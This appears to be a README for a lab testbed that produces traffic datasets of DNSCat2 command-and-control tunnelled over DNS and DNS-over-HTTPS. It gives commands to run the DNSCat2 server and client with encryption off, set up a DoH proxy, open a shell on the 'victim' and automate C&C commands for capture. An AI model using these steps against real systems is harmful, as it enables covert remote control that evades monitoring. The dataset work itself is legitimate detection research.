

# Installation of the testbed network

Please, refer to the PDF file named: "_DNSCat2_testbed_network_configuration.pdf_".

# Manual usage 

**If you are using "Internal Network" option in VirtualBox, connect during few seconds VMs on Internet before return in Internal Network configuration**. It seems to be needed on each first run of the DoH server machine.

## DNSCat2 Server

Run the DNSCat2 server side before the client side:
```
$ cd dnscat2/server/
$ sudo ruby ./dnscat2.rb [domain] --security=open 
```

The option _--security=open_ allow to not encrypt all the DNS request.

## DoH proxy (if you want DoH communication, else go directly to next point about client)

Run the proxy:

```
$ su
# conda activate DoH_proxyConda
# doh-stub --listen-address [addressListeningHost] --listen-port [listeningPort] --domain [domainNameResolver] --cafile [pathToCertificateFile] 
```

## DNSCat2 Client

```
$ cd dnscat2/client/
$ ./dnscat --no-encryption --dns=server=[address_where_to_send_dns_requests],port=[PORT],domain=[domain]
```

The address of the server can be the address of the machine where the proxy is or the one of the machine of the server side of DNSCat2.


## How to execute commands in the shell of the victim

Since DNSCat2 is using windows like Metasploit to manage the communications, when the communication is established, on the server side, we can go to a window with this command:

```
> window -i 1
```

If no other communication has been established, the first communication is in the window 1 like we did.

In order to use the shell prompt of the victim (client), just execute `> shell`. Then, change to be on the window that has just been created: `> window -i 2`.

Then, you can execute shell commands !


# Automated production of dataset with DNSCat2

## C&C communication process with DNSCat2 and DoH (automated)



All dataset production with DNSCat2 is managed from the Debian Controller machine. We run a python script that contacts the Debian Client and Debian Server machines via SSH using their domain names.

As indicated in the DNSCat2 Github documentation (https://github.com/iagox86/dnscat2), we first need to run the server side of DNSCat2. This is run as a background task by using the _dtach_ library, in order to not interrupt the Python script execution. We can communicate with this server side via a socket we've created (see code). The server side of DNSCat2 has a window system like Metasploit.<br>
Next, we can launch the DoH proxy called "_doh-proxy_" (https://github.com/facebookarchive/doh-proxy). Thanks to the certificate passed as a parameter downloaded from the DoH server machine after its configuration, the proxy connects to the Local DoH resolver. It listens for requests on the indicated port (5553) and retransmits them in HTTPS to the Local DoH resolver. **It's imperative to launch a connection within about 20 seconds, otherwise the connection between the proxy and the Local DoH resolver will be closed. If this exceeds the time limit, the process has to be killed and restarted**.<br>
Finally, the client side of DNSCat2 is runned, specifying the public IP address of the Debian Client machine and port destination (5553) to send DNS requests to the DoH proxy (the proxy doesn't seem to work when the loopback address and port 5553 are mentioned). If all goes well, communication is established and packets are exchanged every second or so.

C&C commands are sent using the Debian Controller's python code, which, through SSH, sends the commands to be executed to the DNSCat2 server side using the _dtach_ library and the socket created earlier. You then choose which window to use (usually window 1, unless there's a new connection, in which case it's the window with the incremented number). You can then either execute commands specific to DNSCat2 or request a shell which will open in window 2 if there are no other existing windows.

All the traffic is captured by the victim machine to have the traffic between the victim and the local DoH resolver.

## Running the process

- Pay attention that all the machines can communicate with each other in the same network (NAT network)
- Put the code files needed on the Controller machine:
    - constants.py
    - dnscat2_main.py
    - local_dnscat2_scenarios.json
    - utils.py
- Execute the Python script file "_dnscat2_main.py_" if you want to run the process with: `$ python dnscat2_main.py`
- Kill the process by using "_CTRL+C_" and the process has been coded to end when a communication is ended in order to not disturb the capture of traffic and have problems.

Please, refer to the code if you want to modify which C&C commands to execute and how much C&C commands to execute.